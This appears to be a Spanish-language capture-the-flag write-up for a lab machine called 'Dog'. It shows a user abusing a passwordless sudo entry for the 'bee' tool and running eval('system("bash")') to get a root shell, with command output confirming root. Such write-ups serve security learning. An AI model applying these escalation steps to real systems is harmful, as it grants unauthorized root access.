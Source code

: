 
Dog (Escalada de privilegios)

### 🎯 Objetivo

Escalar privilegios desde el usuario `johncusack` hasta `root`.

### 🔍 Enumeración local (www-data)

Desde una shell web (`www-data`) logramos enumerar los usuarios en `/home` y detectar al usuario `johncusack`. El archivo `user.txt` tenía permisos restringidos, así que era necesario escalar privilegios.

Paso clave: `sudo -l` en `johncusack`
Tras acceder como `johncusack` (mediante las credenciales descubiertas en el CMS):
```
su johncusack
````

Luego, verificamos los privilegios `sudo` disponibles:
```bash
sudo -l
````

 Resultado:
```bash
(ALL) NOPASSWD: /usr/local/bin/bee
````

Esto indica que el usuario puede ejecutar `/usr/local/bin/bee` como **root** sin contraseña.

### 🐝 Escalada de privilegios con `bee`

Ejecutamos el binario:
```bash
sudo /usr/local/bin/bee
````

Dentro de la consola interactiva de `bee`, aprovechamos una funcionalidad crítica: la posibilidad de evaluar código.

En el prompt de `bee`, ejecutamos:
```bash
eval('system("bash")');
````

Esto ejecutó un **shell interactivo como root**.

Verificación
```bash
whoami
# root

id
# uid=0(root) gid=0(root) groups=0(root)

````

### 🏁 Flags

- `user.txt` (como `johncusack`)
    
- `root.txt` (tras obtener root con `bee`)

### 💡 Lección aprendida
    
A veces, **la escalada de privilegios más sencilla** no requiere exploits complejos como PwnKit. Un `sudo -l` puede bastar para detectar accesos críticos como este.
